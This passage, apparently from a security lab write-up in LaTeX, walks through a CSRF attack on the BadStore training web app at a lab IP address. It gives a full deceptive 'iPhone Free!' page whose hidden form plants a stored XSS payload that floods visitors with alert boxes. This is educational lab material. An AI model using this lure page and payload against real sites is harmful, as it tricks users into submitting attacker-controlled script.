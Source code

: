 \begin{enumerate}
To perform a CSRF attack, we need to create a custom web page containing deceptive information. The objective of the attack is to have an unsuspecting user make an XSS comment in the guestbook for generating countless alert messages. The key point necessary to execute the attack is to guide the victim to our page and have him or her click on the button. As we demonstrate it just as an example, we can suppose that the victim will click on it. The custom page is so simple that it is just written as a demo. Below are the steps for carrying out the attack:
  \begin{itemize}
  \item As the attacker, write a simple page containing this code:
    \par
    \begin{lstlisting}[language=HTML,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily]
      <!DOCTYPE html>
      <html>
      <head>
      <title>iPhone Free!</title>
      </head>
      <body>
      <FORM METHOD="POST" ACTION="http://10.0.2.5/cgi-bin/badstore.cgi?action=doguestbook">
      <INPUT TYPE=hidden NAME=name value="<script>for(var i=0;i<10000;i++){alert('HHHH');}</script>" SIZE=30>
      <INPUT TYPE=hidden NAME=email value="1" SIZE=40>
      <TEXTAREA style="display:none" NAME=comments COLS=60 ROWS=4 value="aaa"> </TEXTAREA>
      <INPUT TYPE=submit VALUE="Get Now!">
      <INPUT style="display:none" TYPE=reset></Center>
      </FORM>
      </body>
      </html>
    \end{lstlisting}
  \item The page shows like this:
    \begin{figure}[h!]
      \caption{Fake Page}
      \begin{center}\includegraphics[height=2.5in]{csrf1}
      \end{center}
    \end{figure}
  \item As the victim, visit the malicious page and click the "Get Now!" button.

\end{itemize}
\end{enumerate}
